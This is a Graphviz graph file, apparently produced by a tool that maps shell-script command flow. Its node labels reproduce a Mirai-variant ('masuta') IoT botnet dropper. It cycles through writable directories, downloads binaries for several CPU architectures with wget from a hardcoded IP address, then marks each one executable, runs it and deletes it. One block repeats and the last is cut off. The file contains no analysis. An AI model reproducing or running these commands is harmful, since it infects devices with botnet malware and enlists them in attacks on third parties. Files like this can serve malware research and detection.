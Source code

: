 digraph {
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 10 [label="||,"];
10 [label="wget http://80.211.175.22/bins/masuta.mips -O sunlessmiraimips "];
10 -> 12 [label=";,"];
12 [label="chmod +x sunlessmiraimips "];
12 -> 14 [label=";,"];
14 [label="./sunlessmiraimips "];
14 -> 16 [label=";,"];
16 [label="rm -rf sunlessmiraimips "];
16 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 28 [label="||,"];
28 [label="wget http://80.211.175.22/bins/masuta.mpsl -O sunlessmiraimipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x sunlessmiraimipsel "];
30 -> 32 [label=";,"];
32 [label="./sunlessmiraimipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf sunlessmiraimipsel "];
34 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 136 [label="||,"];
136 [label="wget http://80.211.175.22/bins/masuta.sh4 -O sunlessmiraish4 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessmiraish4 "];
138 -> 140 [label=";,"];
140 [label="./sunlessmiraish4 "];
140 -> 141 [label=";,"];
141 [label="rm -rf sunlessmiraish4 "];
141 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 64 [label="||,"];
64 [label="wget http://80.211.175.22/bins/masuta.x86 -O sunlessmiraix86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x sunlessmiraix86 "];
66 -> 68 [label=";,"];
68 [label="./sunlessmiraix86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf sunlessmiraix86 "];
70 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 82 [label="||,"];
82 [label="wget http://80.211.175.22/bins/masuta.ppc -O sunlessmiraippc "];
82 -> 84 [label=";,"];
84 [label="chmod +x sunlessmiraippc "];
84 -> 86 [label=";,"];
86 [label="./sunlessmiraippc "];
86 -> 88 [label=";,"];
88 [label="rm -rf sunlessmiraippc "];
88 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 100 [label="||,"];
100 [label="wget http://80.211.175.22/bins/masuta.arm7 -O sunlessmiraiarm7 "];
100 -> 102 [label=";,"];
102 [label="chmod +x sunlessmiraiarm7 "];
102 -> 104 [label=";,"];
104 [label="./sunlessmiraiarm7 "];
104 -> 106 [label=";,"];
106 [label="rm -rf sunlessmiraiarm7 "];
106 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 118 [label="||,"];
118 [label="wget http://80.211.175.22/bins/masuta.arm -O sunlessmiraiarm "];
118 -> 120 [label=";,"];
120 [label="chmod +x sunlessmiraiarm "];
120 -> 122 [label=";,"];
122 [label="./sunlessmiraiarm "];
122 -> 124 [label=";,"];
124 [label="rm -rf sunlessmiraiarm "];
124 -> 126 [label=";,"];
126 [label="cd /tmp "];
126 -> 126
128 [label="cd /var/run "];
128 -> 130 [label="||,"];
130 [label="cd /mnt "];
130 -> 132 [label="||,"];
132 [label="cd /root "];
132 -> 134 [label="||,"];
134 [label="cd / "];
134 -> 136 [label="||,"];
136 [label="wget http://80.211.175.22/bins/masuta.sh4 -O sunlessmiraish4 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessmiraish4 "];
138 -> 140 [label=";,"];
140 [label="./sunlessmiraish4 "];
140 -> 141 [label=";,"];
}
